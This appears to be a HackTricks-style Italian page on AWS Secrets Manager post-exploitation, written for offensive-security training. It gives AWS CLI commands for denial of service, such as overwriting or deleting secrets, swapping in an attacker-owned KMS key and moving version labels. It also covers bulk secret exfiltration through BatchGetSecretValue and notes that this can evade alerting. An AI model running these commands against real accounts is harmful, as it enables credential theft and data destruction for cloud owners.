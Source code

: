 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Per maggiori informazioni consulta:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Leggi Secrets

I **secrets stessi sono informazioni sensibili**, [consulta la pagina privesc](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) per imparare come leggerli.

### DoS - Cambiare il valore del Secret

Modificando il valore del secret potresti causare un DoS a tutti i sistemi che dipendono da quel valore.

> [!WARNING]
> Nota che i valori precedenti sono anche memorizzati, quindi è facile tornare al valore precedente.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Se l'attacker ha il permesso secretsmanager:UpdateSecret, può configurare il secret per utilizzare una KMS key di proprietà dell'attacker. Tale key viene inizialmente impostata in modo che chiunque possa accedervi e usarla, quindi è possibile aggiornare il secret con la nuova key. Se la key non fosse accessibile, il secret non potrebbe essere aggiornato.

Dopo aver cambiato la key per il secret, l'attacker modifica la configurazione della propria key in modo che solo lui possa accedervi. In questo modo, nelle versioni successive del secret il contenuto sarà cifrato con la nuova key e, poiché non si potrà accedere a questa key, la possibilità di recuperare il secret verrebbe persa.

È importante notare che questa inaccessibilità si verificherà solo nelle versioni successive, dopo che il contenuto del secret sarà cambiato, poiché la versione corrente è ancora cifrata con la KMS key originale.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Il numero minimo di giorni per eliminare un secret è 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

È possibile ripristinare un secret, il che consente il recupero di secret che sono stati programmati per la cancellazione, poiché il periodo minimo di cancellazione per i secret è di 7 giorni e il massimo è di 30 giorni. Insieme all'autorizzazione secretsmanager:GetSecretValue, questo rende possibile recuperare i loro contenuti.

Per recuperare un secret che è in fase di cancellazione, puoi usare il seguente comando:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Questa operazione permette di eliminare la resource policy che controlla chi può accedere a un secret. Questo potrebbe causare un DoS se la resource policy è stata configurata per consentire l'accesso a un insieme specifico di utenti.

Per eliminare la resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Gli stati di un segreto sono usati per gestire le versioni di un segreto. AWSCURRENT indica la versione attiva che le applicazioni utilizzano, AWSPREVIOUS conserva la versione precedente in modo da poter eseguire il rollback se necessario, e AWSPENDING è usato nel processo di rotazione per preparare e convalidare una nuova versione prima di renderla quella corrente.

Le applicazioni leggono sempre la versione con AWSCURRENT. Se qualcuno sposta quell'etichetta sulla versione sbagliata, le app useranno credenziali non valide e potrebbero andare in errore.

AWSPREVIOUS non viene usato automaticamente. Tuttavia, se AWSCURRENT viene rimosso o riassegnato in modo errato, potrebbe sembrare che tutto stia ancora funzionando con la versione precedente.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}





### Esfiltrazione di segreti in massa via BatchGetSecretValue (fino a 20 per chiamata)

Abusa dell'API Secrets Manager BatchGetSecretValue per recuperare fino a 20 segreti in una singola richiesta. Questo può ridurre drasticamente il numero di chiamate API rispetto a iterare GetSecretValue per ogni segreto. Se si utilizzano filtri (tags/name), è anche richiesta l'autorizzazione ListSecrets. CloudTrail registra comunque un evento GetSecretValue per ogni segreto recuperato nel batch.

Permessi richiesti
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets se si usa --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Nota che l'autorizzazione `secretsmanager:BatchGetSecretValue` non è sufficiente per recuperare i segreti; serve anche `secretsmanager:GetSecretValue` per ogni segreto che si vuole recuperare.

Esfiltrazione tramite lista esplicita
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate tramite filtri (tag key/value o name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Gestione dei guasti parziali
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Impatto
- Raccolta rapida “smash-and-grab” di molti segreti con meno chiamate API, potenzialmente eludendo gli avvisi tarati sui picchi di GetSecretValue.
- I log di CloudTrail includono comunque un evento GetSecretValue per ogni segreto recuperato dal batch.
